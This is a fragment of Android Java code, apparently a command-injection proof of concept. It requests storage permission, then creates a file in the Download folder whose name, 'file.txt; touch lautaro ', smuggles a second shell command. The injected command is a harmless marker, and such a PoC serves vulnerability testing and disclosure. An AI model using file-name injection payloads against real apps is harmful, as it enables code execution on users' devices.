 ```java
        ActivityCompat.requestPermissions(  
                this,  
                new String[]{Manifest.permission.WRITE_EXTERNAL_STORAGE},  
                PERMISSION_REQUEST_CODE  
        );  
    }  
  
    @Override  
    public void onRequestPermissionsResult(  
            int requestCode,  
            @NonNull String[] permissions,  
            @NonNull int[] grantResults  
    ) {  
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);  
        if (requestCode == PERMISSION_REQUEST_CODE) {  
            if (grantResults.length > 0 && grantResults[0] == PackageManager.PERMISSION_GRANTED) {  
                createMaliciousFile();  
            } else {  
                Toast.makeText(getApplicationContext(), "Permission Denied!", Toast.LENGTH_SHORT).show();  
            }  
        }  
    }  
  
    private void createMaliciousFile() {  
        // File name  
        String fileName = "file.txt; touch lautaro ";  
  
        // Create file  
        File file = new File("/sdcard/Download", fileName);  
  
        try {  
            boolean created = file.createNewFile();  
            if (created) {  
                FileWriter writer = new FileWriter(file);  
                writer.append("File created!");  
                writer.flush();  
                writer.close();  
                Toast.makeText(  
                        getApplicationContext(),  
                        "File Created: " + file.getAbsolutePath(),  
                        Toast.LENGTH_LONG  
                ).show();  
                Log.d(TAG, "File created: " + file.getAbsolutePath());  
            } else {  
                Toast.makeText(  
                        getApplicationContext(),  
                        "File Already Exists: " + file.getAbsolutePath(),  
                        Toast.LENGTH_LONG  
                ).show();  
                Log.d(TAG, "File already exists: " + file.getAbsolutePath());  
            }  
        } catch (IOException e) {  
            Log.e(TAG, "Failed to create file: " + e.getMessage());  
            Toast.makeText(getApplicationContext(), "Failed to create file!", Toast.LENGTH_SHORT).show();  
        }  
    }  
}
```
